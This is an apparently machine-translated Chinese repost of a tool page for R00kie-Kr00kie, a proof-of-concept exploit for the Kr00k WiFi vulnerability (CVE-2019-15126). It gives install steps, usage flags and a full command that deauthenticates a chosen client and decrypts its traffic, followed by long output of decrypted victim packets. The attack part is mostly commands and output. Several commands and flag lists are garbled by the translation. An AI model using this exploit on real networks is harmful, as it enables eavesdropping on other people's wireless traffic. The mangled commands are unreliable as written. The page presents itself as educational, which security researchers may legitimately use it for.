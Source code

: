 # R00kie-Kr00kie:针对 CVE-2019-15126 Kr00k 漏洞的 PoC 利用

> -= the last fantasy =-荣誉出品本字幕仅供学习交流，严禁用于商业途径

[![R00kie-Kr00kie : PoC Exploit For The CVE-2019-15126 Kr00k Vulnerability](img//30b7ae2d4f1191657b6635bead06d476.png "R00kie-Kr00kie : PoC Exploit For The CVE-2019-15126 Kr00k Vulnerability")](https://1.bp.blogspot.com/-kM-ifuX4gIU/XobfiwwXOLI/AAAAAAAAFy0/oi0xVGRzAdcGpw-cw367OVdYxtcXNJUSwCLcBGAsYHQ/s1600/r00kie-kr00kie.png)

**R00kie-Kr00kie** 是针对 CVE-2019-15126 kr00k 漏洞的 PoC 利用。本项目仅用于教育目的，不得用于违法或个人获利。本项目的作者不对材料可能造成的任何伤害负责。

**要求**

要使用这些脚本，您需要一个支持带有帧注入的活动监视器模式的 WiFi 卡。我们推荐我们用来开发和测试代码的 Atheros AR9280 芯片(IEEE 802.11n)。我们已经在 **Kali Linux** 上测试了这个概念验证

**安装**

**#克隆主回购**
git 克隆 https://github.com/hexway/r00kie-kr00kie.git&&CD。/r00kie-kr00kie
**#安装依赖关系**
sudo pip 3 install-r requirements . txt

**也可阅读-[MSSQL proxy:在受限环境中执行横向移动的工具包](https://kalilinuxtutorials.com/mssqlproxy/)**

**如何使用？**

脚本:T2[kr00ki . py](https://github.com/hexway/r00kie-kr00kie/blob/master/r00kie-kr00kie.py)

这是实现 **kr00k** 攻击的主要利用文件。

**->~:python 3 r 00k ie-kr 00k ie . py-h**

**用法:** r00kie-kr00kie.py [-h] [-i 接口] [-l 通道] [-b BSSID]
[-c 客户端][-n DEAUTH _ NUMBER][-d DEAUTH _ DELAY]
[-p PCAP _ PATH _ READ][-r PCAP _ PATH _ RESULT][-q]

【T10 –CHANNEL CHANNEL
设置无线接口的信道(默认:1)
-b BSSID，–BSSID BSSID
设置 WiFi AP BSSID(例:“01:23:45:67:89:0a”)
-c CLIENT，–CLIENT CLIENT
设置 WiFi 客户端 MAC 地址(例:
“01:23:45:67:89:0b”)
-n de auth _ NUMBER，–de auth _ NUMBER de auth _ NUMBER –pcap _ PATH _ READ pcap _ PATH _ READ
设置读取加密数据包的 PCAP 文件路径
-r PCAP_PATH_RESULT，–pcap _ PATH _ RESULT PCAP _ PATH _ RESULT
设置写入解密数据包的 PCAP 文件路径
-q，–quiet 最小输出

为了开始攻击，你需要知道接入点的 *bssid* ，它的*信道*和受害者的 *mac 地址*。您可以使用`airodump-ng wlan0`实用程序找到它们。

**运行漏洞利用:**

**->~:python 3 r 00 kie-kr 00 kie . py-I WLAN 0-b D4:38:9C:82:23:7A-c88:C9:D0:FB:88:D1-l 11**

**【！]杀死阻止监视器模式的进程！
[ *]无线接口:wlan0 已处于模式监视器[* ]设置无线接口上的信道:11:WLAN 0
[*]发送 5 个 deauth 数据包到:88:C9:D0:FB:88:D1 来自:D4:38:9C:82:23:7A [* ]发送 5 个 deauth 数据包到:88:C9:D0:FB:88:D1 来自:D4:38:9C:82:23:23** dst = D4:38:9c:82:23:7a
src = 88:C9:d0:FB:88:D1
type = IP v4
**【IP】**
version = 4
IHL = 5
tos = 0x 0
len = 60
id = 30074
flags = DF
frag = 0【T31
**【UDP】**
sport = 60744
dport = domain
len = 40
chksum = 0xa 649
**【DNS】**
id = 55281
QR = 0
opcode = QUERY
aa = 0
TC = 0
rd = 1
ra = 0
z = 0
ad = 0
CD = 0
rcode = ok
qdcount = 1
an count = 0
ns count = 0
arcount = 0

|###[ DNS 问题记录]# # #
| qname = ' g . whatsapp . net . '
| qtype = A
| q class = IN
an = None
ns = None
ar = None

**[+]得到一个 kr00ked 包:
【以太网】**
dst = D4:33 version = 4
IHL = 5
tos = 0x 0
len = 60
id = 30075
flags = DF
frag = 0
TTL = 64
proto = UDP
chk sum = 0x CCE 0
src = 192 . 168 . 43 . 161
dst = 8.8.4.4

**【UDP】**
sport = 60744
dport = domain
len = 40
chksum = 0x 104 b
**【DNS】** id = 28117
QR = 0
opcode = QUERY
aa = 0
TC = 0
rd = 1
ra = 0
z = 0
ad = 0
CD = 0
rcode = ok
qd count = 1
an count = 0
ns count = 0

另外，如果您已经在`kr00t`攻击后拦截了流量(pcap 文件),您可以解密:

**->~:python3 r00kie-kr00kie.py -p encrypted_packets.pcap**

**[*] Read packets from: encrypted_packets.pcap …. [*] All packets are read, packet analysis is in progress ….**

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[IP]**
version = 4
ihl = 5
tos = 0x0
len = 490
id = 756
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0xd0ca
src = 192.168.43.161
dst = 1.1.1.1
\options \
**[ TCP ]**
sport = 34789
dport = 1337
seq = 3463744441
ack = 3909086929
dataofs = 8
reserved = 0
flags = PA
window = 1369
chksum = 0x65ee
urgptr = 0
options = [(‘NOP’, None), (‘NOP’, None), (‘Timestamp’, (1084858, 699843440))]
**[ Raw ]**
load = ‘POST /post_form.html HTTP/1.1\r\nHost: sfdsfsdf:1337\r\nConnection: keep-alive\r\nContent-Length: 138240\r\nOrigin: http://sfdsfsdf.ch:1337\r\nUser-Agent: Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.101 Mobile Safari/537.36\r\nContent-Type: application/json\r\nAccept: */*\r\nReferer: http://sfdsfsdf.ch:1337/post_form.html\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9,ru;q=0.8\r\n\r\n’

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[ IP ]**
version = 4
ihl = 5
tos = 0x0
len = 60
id = 42533
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0x2f47
src = 192.168.43.161
dst = 1.1.1.1
\options \
**[ TCP ]**
sport = 34792
dport = 1337
seq = 71773087
ack = 0
dataofs = 10
reserved = 0
flags = S
window = 65535
chksum = 0x97df
urgptr = 0
options = [(‘MSS’, 1460), (‘SAckOK’, b”), (‘Timestamp’, (1084858, 0)), (‘NOP’, None), (‘WScale’, 6)]

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[ IP ]**
version = 4
ihl = 5
tos = 0x0
len = 1460
id = 35150
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0x46a6
src = 192.168.43.161
dst = 1.1.1.1
\options \
**[ TCP ]**
sport = 36020
dport = 1337
seq = 395101552
ack = 1111748198
dataofs = 8
reserved = 0
flags = A
window = 1369
chksum = 0x35d2
urgptr = 0
options = [(‘NOP’, None), (‘NOP’, None), (‘Timestamp’, (1113058, 700129572))]
**[ Raw ]**
load = “pik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can read this text! I’m so happy!! Now I’m going to follow all these guys: @_chipik, @default_pass, @_hexway !!! Yeah! It’s working! I can”

**[+] Got a kr00ked packet:
[ Ethernet ]**
dst = d4:38:9c:82:23:7a
src = 88:c9:d0:fb:88:d1
type = IPv4
**[ IP ]**
version = 4
ihl = 5
tos = 0x0
len = 60
id = 17897
flags = DF
frag = 0
ttl = 64
proto = tcp
chksum = 0x8f83
src = 192.168.43.161
dst = 95.85.25.177
\options \
**[ TCP ]**
sport = 36266
dport = 1337
seq = 3375779416
ack = 0
dataofs = 10
reserved = 0
flags = S
window = 65535
chksum = 0x2c7d
urgptr = 0
options = [(‘MSS’, 1460), (‘SAckOK’, b”), (‘Timestamp’, (1117105, 0)), (‘NOP’, None), (‘WScale’, 6)]
**[+] Found 4 kr00ked packets and decrypted packets saved in: kr00k.pcap**

**脚本**:[traffic _ generator . py](https://github.com/hexway/r00kie-kr00kie/blob/master/traffic_generator.py)

该脚本从受害者处生成`UDP`流量，以演示`kr00k`攻击

--> ~:python 3 traffic _ generator . py
向 8.8.8.8 上的 UDP 端口 53 发送有效负载
按 Ctrl+C 退出

[**Download**](https://github.com/hexway/r00kie-kr00kie)